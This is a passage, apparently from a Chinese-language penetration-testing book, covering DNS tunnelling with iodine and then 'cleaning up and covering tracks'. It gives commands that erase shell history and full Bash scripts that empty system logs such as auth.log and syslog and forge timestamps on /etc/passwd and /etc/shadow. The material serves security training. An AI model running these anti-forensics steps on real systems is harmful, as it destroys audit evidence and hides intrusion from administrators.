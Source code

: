 要使用此技术，你需要在已暴露到互联网的主机上设置一个 **iodined** 服务器，并确保它对你用作隧道的域名具有权威性。

请查看 iodined 项目的文档，了解配置和执行说明：[`github.com/yarrick/iodine`](https://github.com/yarrick/iodine) 。

请注意，DNS 隧道是明文或未加密的通信。务必通过隧道加密流量。当用于与一个小型数据箱或远程测试设备通信时，我会通过 DNS 隧道建立一个 SSH 会话。

这就是我们关于跳板技术的讨论。到目前为止，你已经学会了如何使用 SSH 和外部工具建立前向和反向跳板隧道，从基础到高级场景。接下来的章节，我们将讨论在利用后如何进行清理和掩盖痕迹。

# 清理与掩盖痕迹

在渗透测试中，完成评估后清理非常重要。这个过程包括删除可能表明你在系统上存在的任何遗留物、日志或痕迹。本节内容介绍了你可以使用 Bash 脚本来清理和掩盖痕迹的各种技术。

清理的第一步之一是清除命令历史。这可以防止系统管理员看到你执行过的命令。

**history** 命令会清除并写入空的命令历史 —— 即 **history -cw** 。

**history -c** 命令会从内存中清除当前会话的历史记录，而 **history -w** 命令会将（现在为空的）历史记录写入历史文件，从而有效地擦除之前的内容。

删除 **~/.bash_history** 文件并不能清除历史记录，因为结束当前会话时，所有在会话中输入的命令将会被写入重建的文件。

你还可以通过在 Bash 会话开始时使用 **set HISTFILE=/dev/null** 命令将 **HISTFILE** 环境变量设置为 **/dev/null**，从而防止任何命令历史被记录。

系统日志通常包含你的活动证据。这里有一个脚本可以用来清除常见的日志文件。你可以在本章节的 GitHub 仓库中找到它，名为 **ch12_clear_logs.sh** ：

```
 #!/usr/bin/env bash
log_files=(
    "/var/log/auth.log"
    "/var/log/syslog"
    "/var/log/messages"
    "/var/log/secure"
)
for file in "${log_files[@]}"; do
    if [ -f "$file" ]; then
        echo "" > "$file"
        echo "Cleared $file"
    else
        echo "$file not found"
    fi
done
```

该脚本会遍历一组常见的日志文件。对于每个存在的文件，它会用空字符串覆盖内容，从而有效地清除日志。当然，它需要 root 权限才能清除这些文件。

为了使你的活动不那么显眼，你可以修改你访问或修改的文件的时间戳。以下脚本将通过更改时间戳，使其与 **/etc/hosts** 文件的时间戳一致，从而修改一组文件。你可以在本章节的 GitHub 仓库中找到它，名为 **ch12_timestamps.sh** ：

```
 #!/usr/bin/env bash
files_to_modify=(
    "/etc/passwd"
    "/etc/shadow"
    "/var/log/auth.log"
)
reference_file="/etc/hosts"
for file in "${files_to_modify[@]}"; do
    if [ -f "$file" ]; then
        touch -r "$reference_file" "$file"
        echo "Modified timestamp of $file"
    else
        echo "$file not found"
    fi
done
```
